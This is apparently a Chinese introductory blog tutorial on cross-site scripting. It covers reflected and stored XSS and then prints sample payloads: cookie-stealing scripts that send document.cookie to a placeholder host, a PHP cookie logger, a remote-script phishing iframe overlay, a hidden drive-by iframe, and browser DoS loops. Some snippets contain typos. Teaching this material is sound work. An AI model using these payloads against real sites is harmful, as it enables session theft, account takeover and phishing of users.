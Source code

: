 ```yaml
---
title: WEB安全(一) ：XSS初探
date: 2022-06-23 08:22:26
tags:
---
```


### `郑重提醒：本文仅限于讨论安全技术，请勿用作非法用途，严禁利用本文所提漏洞和技术进行非法攻击，否则后果自负，本人不承担任何责任！`
### `什么是XSS`

> 跨站脚本（cross site script）为了避免与样式css混淆，所以简称为XSS。XSS是一种经常出现在web应用中的计算机安全漏洞，也是web中最主流的攻击方式，  
> XSS是指恶意攻击者`利用`网站没有对用户提交数据进行转义处理或者过滤不足的`缺点`，进而添加一些代码，嵌入到web页面中去。使别的用户访问都会执行相应的嵌入代码。从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式。

### `XSS的分类`

*   XSS根据特性和入侵手法不同，主要分为两大类型，一种是反射型XSS，一种是持久性XSS

### 反射型xss

> 也成为非持久性xss，这种漏洞攻击是最常见的，使用最多的一种，主要的攻击方式是讲脚本附加到url地址的参数中，如下

```js
https://zhuanlan.zhihu.com/p/54289849/edit.php?key="><script>alert("xss")</script>
```

> 这种一般是利用攻击手法，诱骗用户点击恶意url，一般此类代码只执行一次，所以为反射型xss，

### 持久型xss

> 也叫做存储型xss，一般在进行漏洞攻击时，会吧此类危害存入到数据库中，所以会在用户访问该页面时弹出被入侵的代码，下面列一段简单的存储型xss

```js
<body>
    <!--留言板-->
    <textarea></textarea>
    <button>提交</button>
</body>
```

> 比如上面代码，我们在textarea中输入留言，然后提交到数据库。如果我们按照下面这种方式提交

![](https://pic1.zhimg.com/v2-f058269f7ba9c0e63c198656f2725578_b.jpg)

![](https://pic1.zhimg.com/80/v2-f058269f7ba9c0e63c198656f2725578_1440w.jpg)

> 这样在浏览器输入该留言的时候，代码就会变成下面这样

```js
<body>
    <!--留言板-->
    <textarea></textarea><script>alert('xss')</script><textarea></textarea>
    <button>提交</button>
</body>
```

> 

### `常见的XSS剖析`

> 介绍完xss的分类后，相信大家对xss有一个初步的链接，接下来会介绍一些xss的常见技术，其中涉及一些javascript知识，另外，`常见技术仅用于讨论，请勿用于其他网站`

> `1，cookie窃取`

> 窃取cookie是xss攻击中最常用的方式，因为cookie在很多网站中用于保存会话，比如我们常见的网站，往往在输入密码后，为了避免每次浏览多次输入，会勾上记住密码选项，这样，cookie就会保存在我们本地，

> 由于cookie 从客户端和服务端都可以访问，首先从客户端来讲，输入document.cookie就会弹出cookie的相关信息

> 那么，我们如何窃取cookie？ 假设一个网站存在xss攻击，那么，我们就可以编写恶意代码获取cookie信息

```js
<script>
    document.location = "https://www.xxx.com/xss.php?cookie='document.cookie;
</script>

<img src="https://www.xxx.com/xss.php?cookie='document.cookie" />
```

> php 获取信息 xss.php

```js
<?php
  $cookie = $GET['cookie'];
  $log = fopen('cookie.txt','a');
  fwrite($log, $cookie ."\\n");
  fclose($log)
?>
```

> 这样，在获取到cookie之后，就可以利用一些欺骗工具，然后把cookie复制到受害网站上面，进行登录

> `2，权限提升`

> 权限提升是指当网站有漏洞的时候，我们根据管理员添加人员的信息接口，实现接口拦截，然后增加自己的信息创建代码

> 比如我们的网站添加成员的接口为 /admin/addUser.php

> 提交的post数据为 username=admin&password=123456&cookie=xxxxxx

> 那么，当我们拦截到被攻击者的cookie，我们可以利用ajax发送一个post请求，由于我们的请求带上了被攻击者的cookie，所以能请求成功，在后台添加一个账号。

> `3，xss网络钓鱼`

> 传统的xss钓鱼攻击是通过复制网站，然后利用骗取用户点击假网站链接，然后获取账号密码，虽然这种方式容易麻痹用户，但是由于域名不一样，很多用户还是容易识破

> 当结合xss技术后，hack就可以通过javascript动态控制页面内容

> 我们可以在有漏洞页面插入如下xss

```js
https://www.baidu.com?s=<srcipt src=https://www.xxx.com/xss.js><script>
```

> 当用户访问当前连接，就会调用xss

```js
document.body.innerHTML=(
        '<div style="position: absolute;top:0;left:0;width: 100%;height: 100%">' +
        '<iframe src=https://www.xxx.com/xss.html width=100% height=100%>' +
        '</iframe></div>'
    );
```

> 这样，就会加载iframe，我们在iframe放入密码框，就可以欺骗用户输入。

> `4，网页挂马`

> 网页挂马是指当用户访问一个网页之后，就会被运行了密码程序，然后被入侵电脑，做其他的事情

> 在xss中使用挂马的方式很简单，只要找到有漏洞的网站执行以下代码

```js
<script>
   document.write("<ifream src=http://www.xxx.com/xss.html width=0 height=0></ifream>")
</script>
```

> `5，DOS和DDOS`

> dos指拒绝服务供给，这种攻击指利用大量数据让系统崩溃，考虑以下代码

```js
<script>
   for(;;){
    $.ajax({});
   }
</script>

————————————————————————————分割线————————————————

<meta http-equiv='refresh' content='0'>
```

> 当你保存这段代码为html后，用浏览器打开，分割线上面代码此时会出现无线请求ajax 现象，这样会造成浏览器的死循环。 分割线下面代码则会造成网页无线刷新

> ddos就是指分布式拒绝服务攻击，说简单了就是多台电脑执行dos攻击

> 

### `结尾`

> 以上就是今天给大家带来初探xss的所有内容，说起xss。我也是研究了一周左右，所以很多地方有错误在所难免，而且今天的文章算是一个入门，让大家知道xss的危害，以及执行的方法。
